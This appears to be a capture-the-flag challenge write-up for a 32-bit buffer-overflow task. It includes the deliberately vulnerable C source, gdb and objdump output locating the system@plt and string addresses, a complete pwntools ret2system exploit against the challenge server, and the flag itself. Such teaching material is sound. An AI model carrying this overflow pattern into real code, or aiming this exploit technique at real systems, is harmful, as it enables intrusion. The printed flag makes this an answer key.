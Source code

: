 # Split System

Difficulty Level: Medium
 
I have separated System and "/bin/cat flag.txt". Put them back together!
 
Connect via `nc challenge.ctf-fun.xyz 14013`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- call system with the address of "/bin/cat flag.txt"


## Deployment

```bash
cd service
sudo ./splitsystem.sh &
```

## Solution
Open the source code and you will see a global variable helper with contents “/bin/cat flag.txt”
Use `objdump -t splitsystem` or `info variables` on `gdb` to find the address of helper (0x0804c060)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char helper[40] = "/bin/cat flag.txt";

void usefulFunction() {
	system("/bin/ls");
}

void vuln(){
	char buffer[40] = {0x00};

	printf("%s\n", "I heard you like system so I give it to you");
	printf("%s", "> ");

	read(0, buffer, 0x60);

	printf("%s\n", "Tanks.");
}

int main(int argc, char **argv) {
	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
	setvbuf(stderr,NULL,2,0);

	vuln();
}
```

```bash
$ objdump -t splitsystem | grep helper
0804c060 g     O .data  00000028              helper
```

Afterwards use `gdb` to disassemble usefulFunction and get the address of `system@plt` (0x8049060)
 
```bash
gef➤  disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x080491a2 <+0>:     push   ebp
   0x080491a3 <+1>:     mov    ebp,esp
   0x080491a5 <+3>:     push   ebx
   0x080491a6 <+4>:     sub    esp,0x4
   0x080491a9 <+7>:     call   0x80492ee <__x86.get_pc_thunk.ax>
   0x080491ae <+12>:    add    eax,0x2e52
   0x080491b3 <+17>:    sub    esp,0xc
   0x080491b6 <+20>:    lea    edx,[eax-0x1ff8]
   0x080491bc <+26>:    push   edx
   0x080491bd <+27>:    mov    ebx,eax
   0x080491bf <+29>:    call   0x8049060 <system@plt>
   0x080491c4 <+34>:    add    esp,0x10
   0x080491c7 <+37>:    nop
   0x080491c8 <+38>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080491cb <+41>:    leave  
   0x080491cc <+42>:    ret    
End of assembler dump.
gef➤  
```

Now call system(helper)

```python
"""
objdump to find out location of helper

"""


from pwn import *

def main():
	helper = p32(0x0804c060)
	system_loc = p32(0x8049060)

	padding = b'A' * 52

	fake_ret = b'BBBB'

	payload = padding + system_loc + fake_ret + helper

	#io = process('./splitsystem')
	io = remote("challenge.ctf-fun.xyz", 14013)
	io.sendline(payload)
	io.interactive()

if __name__ == '__main__':
	main()
```
### Flag
19C4{s3par4ted_but_insep4rable}